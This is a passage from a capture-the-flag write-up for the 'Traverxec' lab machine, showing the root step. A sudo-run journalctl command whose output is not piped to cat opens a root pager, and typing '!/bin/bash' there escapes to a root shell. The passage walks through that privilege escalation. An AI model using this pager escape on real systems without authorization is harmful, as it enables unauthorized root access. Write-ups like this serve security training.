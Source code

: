 <img src="/images/Traverxec-Writeup/5.png" style="display: block; margin: auto;" />

# Root

``` bash
david@traverxec:~$ pwd
/home/david
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cd bin/
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
```

Now we are in the David’s home directory. We found (/Bin) directory which have a bash script. Lets look into it.

``` bash
#!/bin/bash
 
cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

This script is to check the status of the nostromo server. From the last line, we can tell that the script will print the last 5 line of the nostromo status log. For more about journalctl: https://www.linode.com/docs/quick-answers/linux/how-to-use-journalctl/

When we execute the last line of the script:

``` bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

It will display the last 5 line of the log normally. But if we execute it without the “cat” after the pipeline:

``` bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

<img src="/images/Traverxec-Writeup/6.png" style="display: block; margin: auto;" />

The log will be displayed in Vim terminal that will be run with root permission, which we can take advantage of it by escalating the privilege to root. Looking into GTFOBins page https://gtfobins.github.io/gtfobins/systemctl/, we found an interesting way to escalate privileges to root.

Simply, execute “!/bin/bash” at the bottom of the terminal, as it will be executed as root to get root bash terminal.

<img src="/images/Traverxec-Writeup/7.png" style="display: block; margin: auto;" />

And we got root!

<img src="/images/Traverxec-Writeup/8.png" style="display: block; margin: auto;" />

